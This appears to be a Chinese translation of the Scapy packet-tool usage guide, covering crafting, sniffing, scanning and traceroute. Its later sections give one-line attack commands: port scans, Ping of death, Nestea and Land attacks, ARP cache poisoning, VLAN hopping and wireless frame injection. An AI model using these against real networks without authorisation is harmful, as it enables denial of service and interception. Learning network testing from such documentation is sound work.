




Usage
Starting Scapy
Scapy的交互式shell运行在终端中，要想发送packets，需要Root权限，所以Linux下需要sudo权限：
1 | sudo ./scapy |
:
1 | C:\>scapy |
如果你没有安好所有可选包，Scapy将提示你一些函数无法使用：
1 | INFO: Can't import python matplotlib wrapper. Won't be able to plot. |
基础的发送数据包功能将依旧能用。
Customizing the Terminal
在你开始使用Scapy之前，你可以配置字体颜色——只需要设置conf.color_theme为如下选项：
1 | DefaultTheme, BrightTheme, RastaTheme, ColorOnBlackTheme, BlackAndWhite, HTMLTheme, LatexTheme |
例如:
1 | conf.color_theme = BrightTheme() |
其他参数，如conf.prompt，也可以提供一些定制。注意Scapy将在conf值更改后立即自动更新shell。
交互式教程
以下将向你介绍一些简单的功能。
First steps
咱来整个数据包:
1 | >> a=IP(ttl=10) |
Stacking layers
操作符/用于两个layer之间，此时，底层将根据高层重载一个或多个字段（你仍可以对其赋值）。一个string可以被用作一个原生层。
1 | IP() |

每个包都能被创造或切分（Python中_表示上条指令执行结果）：
1 | raw(IP()) |
可以看到被切分的数据包含所有被填充的字段，如果这太长了，可以用hide_defaults()函数去除其中与默认值相同的字段：
1 | c.hide_defaults() |
Reading PCAP files
你可以通过pcap文件读写数据：
1 | a=rdpcap("/spare/captures/isakmp.cap") |
Graphical dumps (PDF, PS)
如果您已经安装PyX，您可以做一个数据包的图形PostScript/ PDF转储（见下面丑陋的PNG图像，PostScript/PDF则具有更好的质量…）
1 | a[423].pdfdump(layer_shift=1) |
| Command | Effect |
|---|---|
| raw(pkt) | 组装数据包 |
| hexdump(pkt) | 十六进制转储 |
| ls(pkt) | 显示出字段值的列表 |
| pkt.summary() | 一行摘要 |
| pkt.show() | 针对数据包的展开试图 |
| pkt.show2() | 显示聚合的数据包（例如，计算好了校验和） |
| pkt.sprintf() | 用数据包字段填充格式字符串 |
| pkt.decode_payload_as() | 改变payload的decode方式 |
| pkt.psdump() | 绘制一个解释说明的PostScript图表 |
| pkt.pdfdump() | 绘制一个解释说明的PDF |
| pkt.command() | 返回可以生成数据包的Scapy命令 |
Generating sets of packets
目前我们只是生成一个数据包。让我们看看如何轻易地定制一组数据包。整个数据包的每一个字段（甚至是网络层次）都可以是一组。在这里隐含地定义了一组数据包的概念，意即是使用所有区域之间的笛卡尔乘积来生成的一组数据包。
1 | a=IP(dst="www.slashdot.org/30") |
某些操作（如修改一个数据包中的字符串）无法对于一组数据包使用。在这些情况下，如果您忘记展开您的数据包集合，只有您忘记生成的列表中的第一个元素会被用于组装数据包。
| Command | Effect |
|---|---|
| summary() | 显示一个关于每个数据包的摘要列表 |
| nsummary() | 同上，但规定了数据包数量 |
| conversations() | 显示一个会话图表 |
| show() | 显示首选表示（通常用nsummary()） |
| filter() | 返回一个lambda过滤后的数据包列表 |
| hexdump() | 返回所有数据包的一个hexdump |
| hexraw() | 返回所以数据包Raw layer的hexdump |
| padding() | 返回一个带填充的数据包的hexdump |
| nzpadding() | 返回一个具有非零填充的数据包的hexdump |
| plot() | 规划一个应用到数据包列表的lambda函数 |
| make table() | 根据lambda函数来显示表格 |
Sending packets
现在我们知道了如何处理数据包。让我们来看看如何发送它们。send()函数将会在第3层发送数据包。也就是说它会为你处理路由和第2层的数据。sendp()函数将会工作在第2层。选择合适的接口和正确的链路层协议都取决于你。
1 | send(IP(dst="1.2.3.4")/ICMP()) |
Fuzzing
fuzz()函数可以通过一个具有随机值、数据类型合适的对象，来改变任何默认值，但该值不能是被计算的（像校验和那样）。这使得可以快速建立循环模糊化测试模板。在下面的例子中，IP层是正常的，UDP层和NTP层被fuzz。UDP的校验和是正确的，UDP的目的端口被NTP重载为123，而且NTP的版本被更变为4.其他所有的端口将被随机分组：
1 | send(IP(dst="target")/fuzz(UDP()/NTP(version=4)),loop=1) |
Send and receive packets (sr)
现在让我们做一些有趣的事情。sr()函数是用来发送数据包和接收应答。该函数返回一对数据包及其应答，还有无应答的数据包。sr1()函数是一种变体，用来返回一个应答数据包。发送的数据包必须是第3层报文（IP，ARP等）。srp()则是使用第2层报文（以太网，802.3等）。
1 | p = sr1(IP(dst="www.slashdot.org")/ICMP()/"XXXXXXXXXXX") |
DNS查询（rd = recursion desired）。主机192.168.5.1是我的DNS服务器。注意从我Linksys来的非空填充具有Etherleak缺陷：
1 | sr1(IP(dst="192.168.5.1")/UDP()/DNS(rd=1,qd=DNSQR(qname="www.slashdot.org"))) |
发送和接收函数族是scapy中的核心部分。它们返回一对两个列表。第一个就是发送的数据包及其应答组成的列表，第二个是无应答数据包组成的列表。为了更好地呈现它们，它们被封装成一个对象，并且提供了一些便于操作的方法：
1 | sr(IP(dst="192.168.8.1")/TCP(dport=[21,22,23])) |
如果对于应答数据包有速度限制，你可以通过inter参数来设置两个数据包之间等待的时间间隔。如果有些数据包丢失了，或者设置时间间隔不足以满足要求，你可以重新发送所有无应答数据包。你可以简单地对无应答数据包列表再调用一遍函数，或者去设置retry参数。如果retry设置为3，scapy会对无应答的数据包重复发送三次。如果retry设为-3，scapy则会一直发送无应答的数据包，直到。timeout参数设置在最后一个数据包发出去之后的等待时间：
1 | sr(IP(dst="172.20.29.5/30")/TCP(dport=[21,22,23]),inter=0.5,retry=-2,timeout=1) |
SYN Scans
在Scapy提示符中执行一下命令，可以对经典的SYN Scan初始化：
1 | sr1(IP(dst="72.14.207.99")/TCP(dport=80,flags="S")) |
以上向Google的80端口发送了一个SYN数据包，会在接收到一个应答后退出：
1 | Begin emission: |
从以上的输出中可以看出，Google返回了一个SA（SYN-ACK）标志位，表示80端口是open的。
使用其他标志位扫描一下系统的440到443端口：
1 | sr(IP(dst="192.168.1.1")/TCP(sport=666,dport=(440,443),flags="S")) |
或者
1 | sr(IP(dst="192.168.1.1")/TCP(sport=RandShort(),dport=[440,441,442,443],flags="S")) |
可以对收集的数据包进行摘要（summary），来快速地浏览响应：
1 | ans, unans = _ |
以上显示了我们在扫描过程中的请求应答对。我们也可以用一个循环只显示我们感兴趣的信息：
1 | ans.summary( lambda(s,r): r.sprintf("%TCP.sport% \t %TCP.flags%") ) |
可以使用make_table()函数建立一个表格，更好地显示多个目标信息：
1 | ans, unans = sr(IP(dst=["192.168.1.1","yahoo.com","slashdot.org"])/TCP(dport=[22,80,443],flags="S")) |
在以上的例子中，如果接收到作为响应的ICMP数据包而不是预期的TCP数据包，就会打印出ICMP差错类型（error type）。
对于更大型的扫描，我们可能对某个响应感兴趣，下面的例子就只显示设置了”SA”标志位的数据包：
1 | ans.nsummary(lfilter = lambda (s,r): r.sprintf("%TCP.flags%") == "SA") |
I如果我们想对响应进行专业分析，我们可以使用使用以下的命令显示哪些端口是open的：
1 | ans.summary(lfilter = lambda (s,r): r.sprintf("%TCP.flags%") == "SA",prn=lambda(s,r):r.sprintf("%TCP.sport% is open")) |
对于更大型的扫描，我们可以建立一个端口开放表：
1 | ans.filter(lambda (s,r):TCP in r and r[TCP].flags&2).make_table(lambda (s,r): |
如果以上的方法还不够，Scapy还包含一个report_ports()函数，该函数不仅可以自动化SYN scan，而且还会对收集的结果以LaTeX形式输出：
1 | report_ports("192.168.1.1",(440,443)) |
TCP traceroute
TCP路由追踪：
1 | ans, unans = sr(IP(dst=target, ttl=(4,25),id=RandShort())/TCP(flags=0x2)) |
注意：TCP路由跟踪和其他高级函数早已被构造好了：
1 | lsc() |
Scapy 同样可以使用 GeoIP2 模块, 结合 matplotlib 和 cartopy 可以生成如下有趣的图片:
在这个例子中，我们使用了 traceroute_map() 函数来绘制图片，这个函数使用了 TracerouteResultobjects 中的 world_trace 函数，当然他可以有其他的用法：
1 | conf.geoip_city = "path/to/GeoLite2-City.mmdb" |
或者:
1 | conf.geoip_city = "path/to/GeoLite2-City.mmdb" |
确保你安装了 geoip2 , 以及它的数据库 (direct download) 和 cartopy 模块来使用这一功能.
Configuring super sockets
Different super sockets are available in Scapy: the native ones, and the ones that use libpcap (to send/receive packets).
By default, Scapy will try to use the native ones (except on Windows, where the winpcap/npcap ones are preferred). To manually use the libpcap ones, you must:
- On Unix/OSX: be sure to have libpcap installed.
- On Windows: have Npcap/Winpcap installed. (default)
Then use:
1 | conf.use_pcap = True |
This will automatically update the sockets pointing to conf.L2socket and conf.L3socket.
If you want to manually set them, you have a bunch of sockets available, depending on your platform. For instance, you might want to use:
1 | conf.L3socket=L3pcapSocket # Receive/send L3 packets through libpcap |
Sniffing
我们可以简单地捕获数据包，或者是克隆tcpdump或tethereal的功能。如果没有指定interface，则会 按照conf.iface 的设置进行嗅探：:
1 | sniff(filter="icmp and host 66.35.250.151", count=2) |
对于控制输出信息，我们可以使用sprintf()函数：
1 | pkts = sniff(prn=lambda x:x.sprintf("{IP:%IP.src% -> %IP.dst%\n}{Raw:%Raw.load%\n}")) |
我们可以嗅探并进行被动操作系统指纹识别：
1 | p |
猜测操作系统版本前的数字为猜测的精确度。
Asynchronous Sniffing
注意
Asynchronous sniffing 只用于 Scapy 2.4.3 及以上版本
你可以异步的使用 sniffer . 这样 sniffer 就可以被程序化的终止，而非总是使用ctrl^C.我们提供了 start(), stop() 和 join() 方法.
基础用法如下:
1 | t = AsyncSniffer() |
AsyncSniffer 类有一些有用的关键字, 比如 results (收集到的数据包) 或 running, 这些都是可用的. 他接受与 sniff() 相同的参数(实际上，他们的实现是相结合的)。例如:
1 | t = AsyncSniffer(iface="enp0s3", count=200) |
另一个例子: 使用 prn 和 store=False
1 | t = AsyncSniffer(prn=lambda x: x.summary(), store=False, filter="tcp") |
Advanced Sniffing - Sniffing Sessions
注意
Sessions 只用于 Scapy 2.4.3 及以上版本
sniff() 同样提供 Sessions 服务, 这使得数据包可以被无缝剖析. 打个比方, 你想在执行 prn之前用sniff(prn=...) 来自动整理IP数据包 .
Scapy 包含了一些基础的 Sessions, 但同样可以被自定义. 默认的有如下:
IPSession-> defragment IP packets on-the-flow, to make a stream usable byprn.TCPSession-> defragment certain TCP protocols*. Only HTTP 1.0 currently uses this functionality.NetflowSession-> resolve Netflow V9 packets from their NetflowFlowset information objects
使用 sniff() 的 session= 参数来使用他们:
1 | sniff(session=IPSession, iface="eth0") |
注意
如果要为了支持其他 flow-based 的协议自定义 Session 类,可以简单地从 scapy/sessions.py 中复制一份样例。 你的自定义 Session 类只用拓展 DefaultSession 类, 并自定义其中的on_packet_received` 函数即可, 如例中所示。
Filters
演示一下bpf过滤器和sprintf()方法：
1 | a=sniff(filter="tcp and ( port 25 or port 110 )", |
Send and receive in a loop
这儿有一个例子来实现类似(h)ping的功能：你一直发送同样的数据包集合来观察是否发生变化：
1 | srloop(IP(dst="www.target.com/30")/TCP()) |
Importing and Exporting Data
PCAP
通常可以将数据包保存为pcap文件以备后用，或者是供其他的应用程序使用：
1 | wrpcap("temp.cap",pkts) |
还原之前保存的pcap文件：
1 | pkts = rdpcap("temp.cap") |
1 | pkts = sniff(offline="temp.cap") |
Hexdump
Scapy允许你以不同的十六进制格式输出编码的数据包。
使用hexdump()函数会以经典的hexdump格式输出数据包：
1 | hexdump(pkt) |
使用import_hexcap()函数可以将以上的hexdump重新导入到Scapy中：
1 | pkt_hex = Ether(import_hexcap()) |
Binary string
使用raw()函数可以将整个数据包转换成二进制字符串：
1 | pkts = sniff(count = 1) |
通过选择合适的起始层（例如Ether()），我们可以重新导入二进制字符串。
1 | >>> new_pkt = Ether(pkt_raw) |
Base64
使用export_object()函数，Scapy可以数据包转换成base64编码的Python数据结构：
1 | pkt |
使用import_object()函数，可以将以上输出重新导入到Scapy中：
1 | new_pkt = import_object() |
Sessions
最后可以使用save_session()函数来保存所有的session变量：
1 | dir() |
使用load_session()函数，在下一次你启动Scapy的时候你就能加载保存的session：
1 | dir() |
Making tables
现在我们来演示一下make_table()函数的功能。该函数的需要一个列表和另一个函数（返回包含三个元素的元组）作为参数。第一个元素是表格x轴上的一个值，第二个元素是y轴上的值，第三个原始则是坐标(x,y)对应的值，其返回结果为一个表格。这个函数有两个变种，make_lined_table()和make_tex_table()来复制/粘贴到你的LaTeX报告中。这些函数都可以作为一个结果对象的方法：
在这里，我们可以看到一个多机并行的traceroute（Scapy的已经有一个多TCP路由跟踪功能，待会儿可以看到）：
1 | ans, unans = sr(IP(dst="www.test.fr/30", ttl=(1,6))/TCP()) |
这里有个更复杂的例子：从他们的IPID字段中识别主机。我们可以看到172.20.80.200只有22端口做出了应答，而172.20.80.201则对所有的端口都有应答，而且172.20.80.197对25端口没有应答，但对其他端口都有应答。
1 | ans, unans = sr(IP(dst="172.20.80.192/28")/TCP(dport=[20,21,22,25,53,80])) |
你在使用TTL和显示接收到的TTL等情况下，它可以很轻松地帮你识别网络拓扑结构。
Routing
现在Scapy有自己的路由表了，所以将你的数据包以不同于操作系统的方式路由：
1 | conf.route |
Matplotlib
我们可以很容易地将收集起来的数据绘制成图案。（确保你已经安装了matplotlib）例如，我们可以通过观察图案知道负载平衡器用了多少个不同的IP堆栈：
1 | a, b = sr(IP(dst="www.target.com")/TCP(sport=[RandShort()]*1000)) |
TCP traceroute (2)
Scapy也有强大的TCP traceroute功能。并不像其他traceroute程序那样，需要等待每个节点的回应才去下一个节点，scapy会在同一时间发送所有的数据包。其缺点就是不知道什么时候停止（所以就有maxttl参数），其巨大的优点就是，只用了不到3秒，就可以得到多目标的traceroute结果：
1 | traceroute(["www.yahoo.com","www.altavista.com","www.wisenut.com","www.copernic.com"],maxttl=20) |
最后一行实际上是该函数的返回结果：traceroute返回一个对象和无应答数据包列表。traceroute返回的是一个经典返回对象更加特殊的版本（实际上是一个子类）。我们可以将其保存以备后用，或者是进行一些例如检查填充的更深层次的观察：
1 | result, unans = _ |
和其他返回对象一样，traceroute对象也可以相加：
1 | r2, unans = traceroute(["www.voila.com"],maxttl=20) |
Traceroute返回对象有一个非常实用的功能：他们会将得到的所有路线做成一个有向图，并用AS组织路线。你需要安装graphviz。在默认情况下会使用ImageMagick显示图形。
1 | res, unans = traceroute(["www.microsoft.com","www.cisco.com","www.yahoo.com","www.wanadoo.fr","www.pacsec.com"],dport=[80,443],maxttl=20,retry=-2) |

如果你安装了VPython，你就可以用3D来表示traceroute。右边的按钮是旋转图案，中间的按钮是放大缩小，左边的按钮是移动图案。如果你单击一个球，它的IP地址就会出现/消失。如果你按住Ctrl单击一个球，就会扫描21,22,23,25,80和443端口，并显示结果：
1 | res.trace3D() |
)
Wireless frame injection
Note
See the TroubleShooting section for more information on the usage of Monitor mode among Scapy.
Provided that your wireless card and driver are correctly configured for frame injection
1 | $ iw dev wlan0 interface add mon0 type monitor |
On Windows, if using Npcap, the equivalent would be to call:
1 | >>> # Of course, conf.iface can be replaced by any interfaces accessed through IFACES |
you can have a kind of FakeAP:
1 | >>> sendp(RadioTap()/ |
Depending on the driver, the commands needed to get a working frame injection interface may vary. You may also have to replace the first pseudo-layer (in the example RadioTap()) by PrismHeader(), or by a proprietary pseudo-layer, or even to remove it.
Simple one-liners
ACK Scan
使用Scapy强大的数据包功能，我们可以快速地复制经典的TCP扫描。例如，模拟ACK Scan将会发送以下字符串：
1 | ans, unans = sr(IP(dst="www.slashdot.org")/TCP(dport=[80,666],flags="A")) |
我们可以在有应答的数据包中发现未过滤的端口：
1 | for s,r in ans: |
同样的，可以在无应答的数据包中发现过滤的端口：
1 | for s in unans: |
Xmas Scan
可以使用以下的命令来启动Xmas Scan：
1 | ans, unans = sr(IP(dst="192.168.1.1")/TCP(dport=666,flags="FPU") ) |
有RST响应则意味着目标主机的对应端口是关闭的。
IP Scan
较低级的IP Scan可以用来枚举支持的协议：
1 | ans, unans = sr(IP(dst="192.168.1.1",proto=(0,255))/"SCAPY",retry=2) |
ARP Ping
在本地以太网络上最快速地发现主机的方法莫过于ARP Ping了：
1 | ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2) |
用以下命令可以来审查应答：
1 | ans.summary(lambda (s,r): r.sprintf("%Ether.src% %ARP.psrc%") ) |
Scapy还包含内建函数arping(),该函数实现的功能和以上的两个命令类似：
1 | arping("192.168.1.*") |
ICMP Ping
可以用以下的命令来模拟经典的ICMP Ping：
1 | ans, unans = sr(IP(dst="192.168.1.1-254")/ICMP()) |
用以下的命令可以收集存活主机的信息：
1 | ans.summary(lambda (s,r): r.sprintf("%IP.src% is alive") ) |
TCP Ping
如果ICMP echo请求被禁止了，我们依旧可以用不同的TCP Pings，就像下面的TCP SYN Ping:
1 | ans, unans = sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") ) |
对我们的刺探有任何响应就意味着为一台存活主机，可以用以下的命令收集结果：
1 | ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") ) |
UDP Ping
如果其他的都失败了，还可以使用UDP Ping，它可以让存活主机产生ICMP Port unreachable错误。你可以挑选任何极有可能关闭的端口，就像端口0：
1 | ans, unans = sr( IP(dst="192.168.*.1-10")/UDP(dport=0) ) |
同样的，使用以下命令收集结果：
1 | ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") ) |
DNS Requests
IPv4 (A) request:
这将执行查找IPv4地址的DNS请求
1 | ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="secdev.org",qtype="A"))) |
SOA request:
1 | ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="secdev.org",qtype="SOA"))) |
MX request:
1 | ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="google.com",qtype="MX"))) |
Classical attacks
Malformed packets:
1 | send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP()) |
Ping of death (Muuahahah):
1 | send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) ) |
Nestea attack:
1 | send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10)) |
Land attack (designed for Microsoft Windows):
1 | send(IP(src=target,dst=target)/TCP(sport=135,dport=135)) |
ARP cache poisoning
这种攻击可以通过VLAN跳跃攻击投毒ARP缓存，使得其他客户端无法加入真正的网关地址。
经典的ARP缓存投毒：
1 | send( Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client), |
使用double 802.1q封装进行ARP缓存投毒：
1 | send( Ether(dst=clientMAC)/Dot1Q(vlan=1)/Dot1Q(vlan=2) |
TCP Port Scanning
发送一个TCP SYN到每一个端口上。等待一个SYN-ACK或者是RST或者是一个ICMP错误：
1 | res, unans = sr( IP(dst="target") |
将开放的端口结果可视化：
1 | res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) ) |
IKE Scanning
我们试图通过发送ISAKMP Security Association proposals来确定VPN集中器，并接收应答：
1 | res, unans = sr( IP(dst="192.168.1.*")/UDP() |
可视化结果列表：
1 | res.nsummary(prn=lambda (s,r): r.src, lfilter=lambda (s,r): r.haslayer(ISAKMP) ) |
Advanced traceroute
TCP SYN traceroute
1 | ans, unans = sr(IP(dst="4.2.2.1",ttl=(1,10))/TCP(dport=53,flags="S")) |
结果会是：
1 | ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}")) |
UDP traceroute
相比较TCP来说， traceroute一个UDP应用程序是不可靠的，因为ta没有握手的过程。我们需要给一个应用性的有效载荷（DNS，ISAKMP，NTP等）来得到一个应答：
1 | res, unans = sr(IP(dst="target", ttl=(1,20)) |
我们可以想象得到一个路由器列表的结果：
1 | res.make_table(lambda (s,r): (s.dst, s.ttl, r.src)) |
DNS traceroute
我们可以在traceroute()函数中设置l4参数为一个完整的数据包，来实现DNS traceroute：
1 | ans, unans = traceroute("4.2.2.1",l4=UDP(sport=RandShort())/DNS(qd=DNSQR(qname="thesprawl.org"))) |
Etherleaking
1 | sr1(IP(dst="172.16.1.232")/ICMP()) |
ICMP leaking
This was a Linux 2.0 bug:
1 | sr1(IP(dst="172.16.1.1", options="\x02")/ICMP()) |
VLAN hopping
在非常特殊的情况下，使用double 802.1q封装，可以将一个数据包跳到另一个VLAN中：
1 | sendp(Ether()/Dot1Q(vlan=2)/Dot1Q(vlan=7)/IP(dst=target)/ICMP()) |
Wireless sniffing
以下的命令将会像大多数的无线嗅探器那样显示信息：
1 | sniff(iface="ath0", monitor=True, prn=lambda x:x.sprintf("{Dot11Beacon:%Dot11.addr3%\t%Dot11Beacon.info%\t%PrismHeader.channel%\t%Dot11Beacon.cap%}")) |
注意参数 monitor=True , 只用于 scapy>2.4.0 (2.4.0dev+)版本,这是一个跨平台功能. 他基本上都能工作 (在Windows, OSX上), 但可能会要求你手动切换 monitor 模式.
以上命令会产生类似如下的输出：
1 | 00:00:00:01:02:03 netgear 6L ESS+privacy+PBCC |
Recipes
Simplistic ARP Monitor
以下的程序使用了sniff()函数的回调功能（prn参数）。将store参数设置为0，就可以使sniff()函数不存储任何数据（否则会存储），所以就可以一直嗅探下去。filter参数则用于在高负荷的情况下有更好的性能：filter会在内核中应用，而且Scapy就只能嗅探到ARP流量。
1 | #! /usr/bin/env python |
Identifying rogue DHCP servers on your LAN
Problem
你怀疑有人已经在你的LAN中安装了额外的未经授权的DHCP服务器-无论是故意的还是有意的。因此你想要检查是否有任何活动的DHCP服务器，并确定他们的IP和MAC地址。
Solution
使用Scapy发送一个DHCP发现请求，并分析应答：
1 | conf.checkIPaddr = False |
在这种情况下，我们得到了两个应答，所以测试网络上有两个活动的DHCP服务器：
1 | ans.summary() |
如果只感兴趣于MAC和IP地址：
1 | for p in ans: print p[1][Ether].src, p[1][IP].src |
Discussion
我们设置multi=True来确保Scapy在接收到第一个响应之后可以等待更多的应答数据包。这也就是我们为什么不用更方便的dhcp_request()函数，而是手动地构造DCHP数据包的原因：dhcp_request()使用srp1()来发送和接收数据包，这样在接收到一个应答数据包之后就会立即返回。
此外，Scapy通常确保应答来源于之前发送请求的目的地址。但是我们的DHCP数据包被发送到IP广播地址（255.255.255.255），任何应答数据包都将回复DCHP服务器的IP地址作为其源IP地址（e.g. 192.168.1.1）。由于这些IP地址不匹配，我们必须在发送请求前使用conf.checkIPaddr = False来禁用Scapy的check。
See also
http://en.wikipedia.org/wiki/Rogue_DHCP
Firewalking
TTL减一操作过滤后，只有没被过滤的数据包会产生一个ICMP TTL超时
1 | ans, unans = sr(IP(dst="172.16.4.27", ttl=16)/TCP(dport=(1,1024))) |
在对多网卡的防火墙查找子网时，只有它自己的网卡IP可以达到这个TTL：
1 | ans, unans = sr(IP(dst="172.16.5/24", ttl=15)/TCP()) |
TCP Timestamp Filtering
Problem
在比较流行的端口扫描器中，一种常见的情况就是没有设置TCP时间戳选项，而许多防火墙都包含一条规则来丢弃这样的TCP数据包。
Solution
为了让Scapy能够到达其他位置，就必须使用其他选项：
1 | sr1(IP(dst="72.14.207.99")/TCP(dport=80,flags="S",options=[('Timestamp',(0,0))])) |
Viewing packets with Wireshark
Problem
你已经使用Scapy收集或者嗅探了一些数据包，因为Wireshark高级的数据包展示功能，你想使用Wireshark查看这些数据包。
Solution
正好可以使用wireshark()函数：
1 | # First, generate some packets... |
Wireshark 将会被启用并展示你的数据包。
Discussion
wireshark(pktlist, …)With a
